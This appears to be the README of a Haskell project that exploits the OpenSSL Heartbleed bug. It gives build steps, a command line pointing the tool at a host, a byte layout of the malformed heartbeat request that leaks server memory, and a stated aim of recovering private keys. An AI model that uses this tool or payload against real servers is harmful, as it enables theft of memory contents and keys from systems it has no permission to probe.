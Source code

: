 haskell-heartbleed: Implementation of OpenSSL Heartbeat bug exploit in Haskell
==============================================================================

Requirements and Insallation
----------------------------

This program depends on a couple packages, besides GHC of course:

* `Options <http://hackage.haskell.org/package/options>`_ - for argument parsing
* `Repa <http://hackage.haskell.org/package/repa>`_ - for searching through memory
  chunks in parallel.
* `tls (customized) <https://github.com/lehins/hs-tls>`_ - version of
  `tls <http://hackage.haskell.org/package/tls>`_ library with hearbeat feature added
  to it.

Here is installation and compilation instructions (llvm is required for Repa):

.. code-block:: bash

   ~$ sudo apt-get update && sudo apt-get install llvm
   ~$ cabal update && cabal install Options repa
   ~$ git clone https://github.com/lehins/hs-tls
   ~$ cd hs-tls/core
   ~/hs-tls/core$ cabal install
   ~/hs-tls/core$ cd ..
   ~$ rm -R hs-tls
   ~$ git clone https://github.com/lehins/haskell-heartbleed
   ~$ cd haskell-heartbleed
   ~/haskell-heartbleed$ make
   ~/haskell-heartbleed$ ./heartbleed --help                

Example Usage
-------------

.. code-block:: bash
     
   $ ./heartbleed --host example.com --times 10 +RTS -N

Features
--------

Can extract up to 64K of random memory from a server running vulnerable version
of OpenSSL. Unlike most heartbleed implementations, all requests and responses
are transmitted over encrypted TLS connection. Moreover, same TLS connection is
reused for heartbeat requests, until it is dropped by the server, in which case
it is automatically reestablished. Making this implementation blazingly fast.

Still working on ability to retreive private keys from the memory chunks.                

Overview of Heartbeat Request
-----------------------------

Legitimate request and response::

                             _ Size of the payload  _Payload "foo"
    Request__               /                ______/
             \             /                /
    (..) [0x01] [0x00 0x03] [0x66 0x6F 0x6F] [at least 16 bytes random padding] 

    Response_
             \
    (..) [0x02] [0x00 0x03] [0x66 0x6F 0x6F] [at least 16 bytes other random padding] 

Request that exploits the bug, requesting 64K of memory from the server, notice
missing padding::
     
    
       _ Heartbeat      _TLS v1.0   _Message size  _Heartbeat Request  _Payload Size
      /                /           /      ________/   ________________/
     /                /           /      /           /
    [0x18] [0x03 0x01] [0x00 0x03] [0x01] [0xFF 0xFF]


Disclaimer
----------

This program was written for educational purpose only. Pointing this program at
any computer without prior agreement can be considered illegal and might cause
legal action, prosecution, fines and/or imprisonment. Use it at your own risk.
